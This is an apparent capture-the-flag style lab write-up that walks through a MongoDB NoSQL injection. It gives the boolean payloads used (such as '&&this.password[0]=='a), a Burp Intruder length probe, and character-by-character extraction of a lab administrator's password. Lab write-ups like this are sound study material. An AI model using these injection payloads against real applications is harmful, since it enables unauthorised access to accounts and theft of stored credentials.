





# Lab: Exploiting NoSQL injection to extract data
###  The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, extract the password for the administrator user, then log in to their account.

we have following credentials: 
```json
{   
    username: wiener,
    password:peter
}
```


### Detecting No SQL Injection works or not
I Started the Burpsuite proxy and intercepted the request for user administrator, I used ' payload and got the following:


Without payload we have:


So we need to get the hidden password field

### Testing Payloads

'&&1=='1 -> It worked but i didn't got the password field

'&&username[0]=='a -> Got the error:
{
  "message": "There was an error getting user details"
}

Now I go to userole.js endpoint and their is this function:
```javascript
const appendFromUser = (user) => {
    const email = user.email;
    if (email) {
        document.querySelector("#user-details #user-email").textContent = email;
    }
```

So lets modify our payload...
-> '&&user.username[0]=='a -> Didn't worked...

-> lets try using this keyword:
'&&this.username[0]=='a -> This works...

So we will target the password field so lets get the password field using payload:
-> '&&user.password[0]=='a


Now lets try getting the length of password and then bruteforce it

-> '&&user.password.length=='1

Now I sent the request the to Intruder and tried the Number payload from 1-20 and BOOM !!!, I got the length of password as 8 as all other gives response length 151 and error message except 8.



Now lets get the password by brutforcing each index from 0-7 of password filed
> payload-> administrator'&&this.password[0]=='a



- password[0] -> f
- password[1] -> p
- password[2] -> k
- password[3] -> r
- password[4] -> b
- password[5] -> q
- password[6] -> h
- password[7] -> s

### Password = fpkrbqhs

# Lab 3 Solved !!!


